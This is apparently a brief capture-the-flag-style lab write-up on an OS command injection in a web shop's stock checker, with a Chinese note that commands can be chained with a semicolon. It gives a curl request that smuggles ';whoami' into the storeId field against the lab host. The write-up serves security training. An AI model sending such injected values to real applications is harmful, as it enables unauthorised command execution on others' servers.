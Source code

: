 # Lab: OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.

## OS command injection
* 題目說 stock checker 有 command injection，就用 `;` 隔開就可以了
```
payload = curl https://acd11f811f4ec16cc0b2865d00d60070.web-security-academy.net/product/stock --data 'productId=3&storeId=1;whoami'
```